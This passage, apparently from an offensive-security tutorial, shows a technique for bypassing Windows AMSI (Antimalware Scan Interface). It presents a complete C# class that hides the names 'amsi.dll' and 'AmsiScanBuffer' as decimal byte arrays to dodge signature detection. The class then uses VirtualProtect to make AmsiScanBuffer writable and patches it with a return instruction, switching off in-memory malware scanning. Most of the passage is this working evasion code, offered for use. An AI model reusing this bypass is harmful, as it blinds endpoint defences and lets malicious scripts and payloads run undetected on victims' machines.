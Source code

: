 ### 4) From Decimal to ASCII

A little more "complex" method of hiding our string is by using the decimal representation of each ASCII character within the target string. Before placing the string within the DLL source, we can convert the value to an array of decimal values, that when decoded back to ASCII gives us our working string value.

```c#
using System;
using System.Runtime.InteropServices;

public class Amsi
{
    static byte[] patchBytes = new byte[] { 0xC3 };

    public static void Bypass()
    {
        try
        {
            string decL = Encoding.ASCII.GetString(new byte[] { 97, 109, 115, 105, 46, 100, 108, 108 });
            string decP = Encoding.ASCII.GetString(new byte[] { 65, 109, 115, 105, 83, 99, 97, 110, 66, 117, 102, 102, 101, 114 });

            var lib = Win32.LoadLibrary(decL);
            var addr = Win32.GetProcAddress(lib, decP);

            uint oldProtect;
            Win32.VirtualProtect(addr, (UIntPtr)patchBytes.Length, 0x40, out oldProtect);

            Marshal.Copy(patchBytes, 0, addr, patchBytes.Length);
        }
        catch (Exception e)
        {
            Console.WriteLine(" [x] {0}", e.Message);
            Console.WriteLine(" [x] {0}", e.InnerException);
        }
    }
}

class Win32
{
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
```
